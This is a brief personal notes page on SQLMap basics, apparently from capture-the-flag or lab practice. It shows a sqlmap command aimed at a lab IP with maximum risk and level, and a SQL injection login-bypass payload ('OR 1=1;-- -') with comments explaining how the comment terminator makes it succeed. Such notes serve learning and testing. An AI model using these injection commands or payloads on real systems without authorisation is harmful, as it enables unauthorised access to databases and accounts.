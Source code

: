 # SQLMap: The Basics

## Usefull commands I've used&#x20;

{% code overflow="wrap" %}
```sql
for this to work, you need to have the GET request 
sqlmap -u "http://10.10.63.72/ai/includes/user_login?email=root" --risk=3 --level=5 --batch

-all

```
{% endcode %}

{% code overflow="wrap" %}
```sql
SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';

#- "-- -';" With --: Clean and controlled. The attacker silences the rest of the query so nothing breaks. It's the standard way to guarantee the injection works.

#- Without --: Risky. The injected code might clash with the rest of the original query — especially if it's still expecting quotes or other values afterward.
#- It’s like sneaking past security using a fake ID (OR 1=1). Without --, the guard might still ask a follow-up question and catch you. With --, you basically end the conversation and walk right in.
```
{% endcode %}

<figure><img src="../../.gitbook/assets/dae3c749-9f3d-41b9-8b08-2ce351869316.webp" alt=""><figcaption><p>AI is still so bad at creating these kind of images.</p></figcaption></figure>

